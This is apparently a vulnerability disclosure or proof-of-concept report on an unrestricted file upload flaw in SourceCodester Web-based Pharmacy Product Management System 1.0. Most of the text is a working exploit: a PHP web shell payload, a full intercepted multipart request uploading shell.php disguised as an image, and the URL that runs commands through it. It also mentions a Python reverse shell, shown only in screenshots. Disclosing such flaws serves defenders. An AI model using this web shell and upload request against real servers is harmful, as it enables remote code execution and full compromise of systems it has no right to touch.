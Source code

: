 Description

A vulnerability was found in SourceCodester Web-based Pharmacy Product Management System 1.0 and has been classified as critical. This issue exists in the product_expiry/add-product.php file and is caused by unrestricted file upload functionality. The application fails to properly validate the uploaded file's name, extension, and MIME type, allowing attackers to upload a malicious PHP file disguised as an image (e.g., .php file with image/jpeg MIME type). The uploaded file is placed in a publicly accessible directory (uploadImage/), which can then be accessed via a web browser to execute arbitrary commands on the server. This leads to remote code execution (RCE). Exploitation requires network access and authentication (if the upload form is protected), but can result in complete system compromise. Affected version: 1.0.

User can be added under the add-product.php route

![image](https://github.com/user-attachments/assets/b1e7d8c8-10c0-4e5c-b3ce-640b2065ccd5)



Affect code

Locate L27-L52 of add-product.php source code

![image](https://github.com/user-attachments/assets/848c21e4-9341-48db-b51e-864fed69e178)

Prepare payload (shell.php):

![image](https://github.com/user-attachments/assets/dc74f9a6-3e63-4b79-aff3-038b493c1efd)

<?php system($_GET['cmd']); ?>

Rename the file to bypass client-side validation:

![add-product3](https://github.com/user-attachments/assets/199ee5f6-c6d2-4933-9313-05b27a31eaf5)

Upload the file 

![add-product4](https://github.com/user-attachments/assets/2397e8fc-3616-41ba-ad24-2cab24529244)

Intercept and modify upload  in Burp Suite:

Request:

POST /product_expiry/add-product.php HTTP/1.1

Host: localhost

Content-Length: 818

Cache-Control: max-age=0

sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"

sec-ch-ua-mobile: ?0

sec-ch-ua-platform: "Linux"

Upgrade-Insecure-Requests: 1

Origin: http://localhost

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryL9hOhT5TGmZHHMKF

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Sec-Fetch-Site: same-origin

Sec-Fetch-Mode: navigate

Sec-Fetch-User: ?1

Sec-Fetch-Dest: document

Referer: http://localhost/product_expiry/add-product.php

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

Cookie: PHPSESSID=k4708v59avndassvj5te41ha1u

Connection: close



------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtproduct_name"



test3

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="cmdcategory"





------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtexpirydate"



2025-04-02

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtqty"



100

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="txtprice"



100

------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="avatar"; filename="shell.php"

Content-Type: image/png



<?php system($_GET['cmd']); ?>


------WebKitFormBoundaryL9hOhT5TGmZHHMKF

Content-Disposition: form-data; name="btnsave"





------WebKitFormBoundaryL9hOhT5TGmZHHMKF--

![add-product7](https://github.com/user-attachments/assets/b4cb4bd9-5b0e-4245-855c-3eb2a44afa11)


Access the shell:

http://localhost/product_expiry/uploadImage/shell.php?cmd=id


![add-product8](https://github.com/user-attachments/assets/6de008a2-ade4-4447-a597-8050b2a32257)


Reverse Shell using python:

![add-product9](https://github.com/user-attachments/assets/3c4e81e3-dbb9-4859-80fb-e437b6fa4afd)

![add-product10](https://github.com/user-attachments/assets/2e93a3fe-dbba-4036-a6a4-fb03124ccbb5)





